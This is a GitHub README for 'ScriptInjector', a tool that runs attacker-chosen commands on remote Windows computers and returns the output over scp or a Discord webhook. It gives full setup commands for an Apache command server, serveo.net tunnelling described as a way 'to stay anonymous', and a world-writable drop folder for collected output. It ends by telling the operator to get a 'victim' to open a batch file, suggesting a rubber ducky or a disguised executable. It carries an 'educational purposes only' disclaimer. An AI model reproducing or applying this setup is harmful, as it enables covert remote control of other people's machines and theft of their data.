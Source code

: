 # ScriptInjector
Inject and run scripts on remote computers and get the output back via scp or a discord webhook
For educational purposes only.

## How it works
1. Clone this repo and cd into it
    ```
    sudo apt install git -y
    git clone https://github.com/emaa10/ScriptInjector.git
    cd ScriptInjector
    git checkout New-Webhook
    ```

2. Install packages
    ```
    sudo apt install -y apache2 screen
    ```

3. Setup an apache2 webserver and put the files under `/src` into `/var/www/html/`
    ```
    sudo mv src /var/www/html
    ```

4. Generate an ssh-key to allow serveo to connect. We will use serveo for port forwarding, you can use other services if you want, too. 
    ```
    ssh-keygen -t rsa
    ```
    Press enter on all questions.
    
5. Setup serveo.net to stay anonymous
    forward port 80 (http) in a new screen session. You might be asked to verify using google.
    ```
    screen -S http ssh -R your_hostname:80:localhost:80 serveo.net
    ```

6. Adapt Setup.bat and scheduled.bat to match your chosen hostname / your public IP

7. Create a discord webhook in a channel on a server and paste the URL into Setup.bat and scheduled.bat.

8. Start serveo (or a different port forwarding service)
    - See the launch_serveo.txt file for 2 commands to forward ssh and http to your_hostname.serveo.net
    - You can use screen to start multiple serveo forwarding simultaneously

9. Create folders and the input.txt
    ```
    touch /var/www/html/input.txt
    echo "dir C:\Users" >> /var/www/html/input.txt
    sudo mkdir /mnt/income
    sudo chown www-data /mnt/income
    sudo chgrp www-data /mnt/income
    sudo chmod 777 /mnt/income
    ```

10. Get the victim to open the download.bat
    - That's your part. There are many options: Using a rubberducky script or converting the bat file into an executable.